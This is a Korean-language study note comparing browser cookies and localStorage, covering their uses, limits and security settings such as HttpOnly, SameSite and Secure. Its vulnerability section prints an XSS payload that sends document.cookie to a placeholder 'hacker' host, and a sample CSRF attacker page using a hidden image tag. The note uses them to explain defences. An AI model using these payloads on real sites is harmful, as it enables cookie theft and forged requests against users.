 # 쿠키? 로컬스토리지?

## 🍪 쿠키

- 개념
  : 사용자의 웹 브라우저에 저장되는 작은 기록 정보 파일

  - 최대 4KB를 가진 매우 작은 양의 데이터로, 방문한 페이지를 저장하거나 유저의 `로그인 정보`를 저장하는 등 다양한 방법으로 사용됨.
  - 문자열(text)만 저장이 가능하다는 제한이 있음.
  - (key, value) 형태로 저장되어 있음.
  - 브라우저 전용 쿠키 저장소에 저장됨.

- 쿠키는 왜 사용하는걸까?

  - 사용자 경험을 높여주기 위해
  - HTTP의 stateless을 보완하기 위해 등장했음.
  - 쿠키를 활용해서 `서버`는 사용자의 브라우저에 데이터를 넣을 수 있음.
  - 반복적인 인증(stateless하기 때문에 서버는 클라이언트가 누구인지 계속 인증을 해주어야 하기 때문)을 피해 사용자 편의를 위한 기능을 제공하기 위해서 사용함.
  - 쿠키는 자동으로 모든 요청에 함께 담겨서 날아간다.

- 특징

  1. 쿠키는 브라우저 단위로 생성됨.
  2. 쿠키는 도메인에 따라 제한이 됨. `ex) youtube에서 생성한 쿠키는 youtube에만 보내짐.`

- 쿠키의 취약점

  1. XSS(Cross Site Scripting)
      - 사용자 브라우저에 스크립트를 실행시켜 정보를 탈취하거나 조작
      - `http://service.com?search=<script>location.href('http://hacker/cookie.php?value='+document.cookie);</script>`

  2. CSRF(Cross-Site Request Forgey)
      - 인증된 사용자가 자신의 의지와는 무관하게 공격자가 의도한 행위를 특정 웹 사이트에 요청하게 하는 공격
      ```
        <html>
          <head>
            <meta charset="UTF-8">
            <title>Attacker Site</title>
          </head>
          <body>
           <div id="wrap">
            <h1>악성 페이지 - 숨겨진 이미지 태그</h1>
            <img src="http://domain/change?name=hahahahahahkikikikiki" style="width: 0px; height: 0px;"/>
            </div>
          </body>
        </html>
        ```
        - 사용자의 이름을 `hahahahahahkikikikiki`라고 바꾸라는 요청을 날리게 되고 그럴 때 이 쿠키에 아무런 조치가 되어있지 않다면 브라우저는 이 주소에 대해 쿠키가 존재할 경우 쿠키를 그대로 같이 전송해 날려버리고,
        서버 입장에선 "쿠키가 있네? 인증해보니 맞네? 알았어 바꿔줄게" 하면서 사용자 정보를 바꿔버리게 되는 것이다.
  3. 스니핑
      - 패킷을 가로채 정보 도청 가능

- 어떻게 보안을 강화할 수 있을까?

  1. HTTP Only : JS를 통한 쿠키에 접근을 제한함.
  2. SameSite: 외부 서비스에서 우리 서비스의 데이터를 변경하는 요청을 보내지 못하게 만듦.
  3. Secure: HTTPS 연결을 통해서만 전송됨. 즉, 암호화 되어 전송

  ### 궁금증

  ```
  Q) youtube에서 생성한 쿠키는 youtube에만 보내진다고 했는데 그럼 CSRF에 안전한거 아닌가? 왜 SameSite설정을 해줘야하지?

  A) 쿠키에서 CSRF공격이 취약한 것은 쿠키에 담긴 액세스를 탈취해오기 때문이 아니라 통신 시 쿠키가 자동으로 서버로 같이 넘어가기 때문에 이를 통해 서버의 민감한 정보를 수정할 수 있기 때문임. 기본 설정은 `Lax`로 일부 예외(`HTTP GET method/a href/link href`)에서는 CSRF가 발생할 가능성이 있음. 그렇기 때문에 strict를 사용하는 것을 권장한다고 함.
  ```

## 🖥 로컬스토리지

- 클라이언트측에서 데이터를 저장하는데 사용됨.
- 5MB이상의 데이터를 저장할 수 있어 비교적 큰 데이터도 저장가능
- 사용자의 브라우저에 데이터를 저장하는 방법 중 하나
- 웹 스토리지 DB에 저장됨.

- 쿠키와 다른 점이 뭘까?
  1. 모든 HTTP요청에 데이터를 주고 받을 필요가 없음.
  2. 문자열 뿐만 아니라 object도 저장이 가능함.
  3. 영구저장(수동 삭제 필요, 하지만 이는 쿠키에 만료시간이 있다고 가정했을 경우)

- 특징
  - 로컬스토리지 또한 도메인별로 저장됨.

- 로컬스토리지의 취약점
  - XSS 공격에 취약함.
  - 암호화가 되지 않음.
  - => 저장된 데이터의 위협 수준이 매우 낮아야 함.

- 로컬스토리지에는 주로 어떤 데이터가 저장이 될까?
  - 언어 설정
  - 팝업 설정 정보(ex. 일주일간 보지 않기)

### 궁금증

```
Q) 언어 설정과 팝업 설정 정보와 같은 데이터는 쿠키에 저장해도 되는거 아닌가?
A) 쿠키에 저장해도 무방하다. 하지만 쿠키의 저장소는 로컬스토리지보다 작으며 쿠키는 모든 HTTP요청에 포함되어 가므로 HTTP요청에 필요한 내용이 아니라면? 로컬스토리이지에 넣는 것이 좋을 것 같다.
```

## 결론
  - 데이터 전달 방식: 쿠키는 HTTP요청에 자동으로 포함되지만 로컬 스토리지는 임의로 포함해야 포함됨.
  - 생성 장소: 쿠키는 서버에서 생성, 로컬스토리지에는 클라이언트측에서 저장(?)생성(?)
  - 브라우저 정책: 쿠키는 개인정보 보호 모드 시 자동 차단, 로컬스토리지는 동일 도메인에서 항상 접근 가능
  - 

---

[쿠키의 SameSite 설명1](https://web.dev/articles/samesite-cookies-explained?hl=ko) <br/>
[쿠키의 SameSite 설명2](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions) <br/>
[노마드 코더:세선 vs 토큰 vs 쿠키](https://www.youtube.com/watch?v=tosLBcAX1vk&t=39s)